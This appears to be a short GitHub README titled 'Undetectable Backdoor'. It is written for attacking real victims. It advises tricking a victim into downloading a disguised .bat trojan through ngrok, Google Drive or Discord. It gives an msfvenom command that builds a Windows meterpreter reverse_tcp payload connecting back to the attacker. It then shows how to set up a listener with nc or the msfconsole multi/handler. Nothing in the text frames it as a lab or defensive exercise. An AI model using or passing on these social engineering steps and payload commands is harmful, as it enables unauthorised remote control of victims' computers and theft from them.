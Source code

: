 # Undetectable Backdoor

## Social Engineering required:
#### Get victim to download .bat file to their machine, i.e through ngrok server, google drive, discord, or other means.
#### Make it convincing by turning it into a trojan horse.

### Generate the payload:
#### Using meterpreter here, but feel free to play around with it.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

# Setup your listener with nc or msfconsole.
nc -lvnp 9001
or 
msfconsole -q
msf> use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55)
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444)
msf exploit(handler) > exploit

